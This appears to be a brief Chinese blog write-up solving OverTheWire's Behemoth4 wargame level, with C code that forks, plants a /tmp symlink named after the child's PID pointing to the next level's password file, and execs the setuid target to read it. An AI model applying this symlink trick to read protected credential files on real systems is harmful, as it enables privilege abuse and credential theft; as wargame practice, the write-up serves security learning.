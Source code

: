 ```yaml
---
title: Behemoth4
author: rk700
layout: post
tags:
  - OverTheWire
  - exploit
---
```

这道题的程序执行后，会几乎立刻（1秒）去读一个文件，文件名和程序的pid有关。当然可以创建一大堆链接，都指向密码文件，链接名是所有可能的pid，但这样太费事儿

我们用fork，父进程可以得到子进程的pid，由此创建链接文件；子进程先sleep一段时间，以确保父进程先创建链接，然后子进程exec目标程序即可。因为pid不会随exec变，所以这也就是目标程序的pid

c代码如下

{% highlight c %}
#include<stdio.h>
#include<unistd.h>
#include<stdlib.h>

int main(int argc, char *argv[]) {
    pid_t pid;
    pid = fork();
    if(pid == -1) {
        exit(1);
    }
    
    if(pid == 0) {
        sleep(2);
        char *argv[2] = {"/behemoth/behemoth4", NULL};
        execv("/behemoth/behemoth4", argv);
    }
    else {
        char link[32];
        snprintf(link, sizeof link, "/tmp/%d", pid);
        symlink("/etc/behemoth_pass/behemoth5", link);
        int status;
        wait(&status);
        exit(0);
    }
}
{% endhighlight %}